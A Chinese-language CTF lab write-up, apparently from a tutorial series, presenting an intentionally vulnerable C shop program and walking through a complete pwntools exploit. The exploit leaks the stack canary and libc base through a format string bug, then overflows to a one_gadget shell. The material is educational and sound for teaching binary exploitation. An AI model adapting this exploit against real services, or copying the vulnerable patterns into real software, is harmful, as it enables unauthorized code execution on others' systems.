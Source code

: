 ```yaml
---
title: "Day20－Stack 題目練習"
date: 2024-10-04
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

今天大致來到 Stack 部分的尾聲，前面的內容我們討論了幾個經典的 Stack 漏洞，講解了如何進行攻擊並編寫 exploit，也介紹了不少實用的工具。今天，我們將實際練習一道程式碼量較大的題目，這是我在 HITCON 社團攤位時設計的練習題目。

## Lab

查看以下原始碼：

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int choice,num;
char *product[3] = {
    "shirt\n",
    "sticker\n",
    "tissue\n"
};

void buy(){
    printf("We have 3 products:\n");
    for(int i=0; i<3; i++){
        printf("%d. %s", i+1, product[i]);
    }
    printf("Which one do you want to buy? ");
    scanf("%d", &choice);
    printf("You have bought %s\n", product[choice-1]);
    printf("How many do you want to buy? ");
    scanf("%d", &num);
    return;
}

char address[0x20];
int main(){
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IONBF, 0);
    printf("This is HackerSir!\n");
    printf("Welcome to the shop!\n");
    printf("1. Buy\n");
    printf("2. Exit\n");
    printf("Your choice: ");
    scanf("%d", &choice);
    if(choice==1){
        buy();
        printf("Please leave your address: ");
        scanf("%s", address);
        printf(address);
    }else{
        printf("Goodbye!\n");
        exit(0);
    }
    char last[0x10];
    printf("\nleave your last message to our club: ");
    read(0, last, 0x30);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/online_shopping.c -o ./online_shopping/share/online_shopping -fstack-protector-all -z now
```

## writeup

從編譯參數可以看出，程式是動態連結且保護全開。如果想要透過 return address 控制程式流程，需要先 leak 出 canary。我們注意到第 18 行有機會透過越界存取資訊，第 38 行可以利用 format string bug 來 leak 出 stack 資訊，最後的 read 也可能導致 overflow。因此，我們需要確認以下幾點：

- 能否找到 libc base 和 canary
- 有多少 overflow 空間，以及能否透過某種方法獲取 shell

首先確認能否找到 libc base 和 canary。這裡使用簡單的 script 來驗證是否可以利用 format string 漏洞 leak 出這些資訊。在此之前，我們可以換用適當的 libc，參考[Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126)

利用 format string 漏洞，先用 %p 格式輸出 stack 的值，通過 gdb 檢查是否能獲取有用的資訊。後面的 `-` 用來分隔每個位置，方便後續寫 exploit 時精確控制。

以下是簡單的 script：

```python
from pwn import *
r = process('./online_shopping')
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p')
leak = r.recvuntil('\n', drop=True)
print(leak)
r.interactive()
```

執行後，可以看到第三個參數 offset 是 0x21aaa0，第九個參數是 canary。將 leak 的 payload 改為 `%3$p-%9$p` 以 leak 出 libc base 和 canary，並計算出 libc base。

![image](/images/iron2024/day20_image1.png)

![image](/images/iron2024/day20_image2.png)

![image](/images/iron2024/day20_image3.png)

以下是驗證的 script：

```python
from pwn import *
import sys
r = process('./online_shopping')
# r = remote('127.0.0.1', 10011)
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%3$p-%9$p')
cnt = r.recvuntil('\n', drop=True)
cnt = cnt.split(b'-')
libc = int(cnt[0], 16) - 0x21aaa0
log.success('libc = ' + hex(libc))
canary = int(cnt[1], 16)
log.success('canary = ' + hex(canary))
r.interactive()
```

確認成功 leak 到 libc 和 canary。

![image](/images/iron2024/day20_image4.png)

接下來，我們嘗試控制程式流程。根據 objdump，我們知道從 rbp-0x20 開始輸入 0x30，因此只可以控制到 return address。由於我們已經 leak 出 libc base，接下來使用 one_gadgets 獲取 shell，具體可參考 [Day14－Other ret2libc(one gadgets)](https://ithelp.ithome.com.tw/articles/10359719)

![image](/images/iron2024/day20_image5.png)

完整 exploit：

要記得我們在 rbp 前要填入我們所 leak 到的 canary，不然程式會 crash，另外，可以將 rbp 填入 libc 的 bss 段，因為我們沒有事先 leak pie

```python
from pwn import *
import sys
# r = process('../online_shopping/share/online_shopping')
r = remote('127.0.0.1', 10011)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%3$p-%9$p')
cnt = r.recvuntil('\n', drop=True)
cnt = cnt.split(b'-')
libc = int(cnt[0], 16) - 0x21aaa0
log.success('libc = ' + hex(libc))
canary = int(cnt[1], 16)
log.success('canary = ' + hex(canary))
og = libc + 0xebd3f
payload2 = b'A' * 0x18 + p64(canary) + p64(libc + 0x21be00) + p64(og)
r.sendlineafter('club: ', payload2)
r.interactive()
```

solved!!!

![image](/images/iron2024/day20_image6.png)
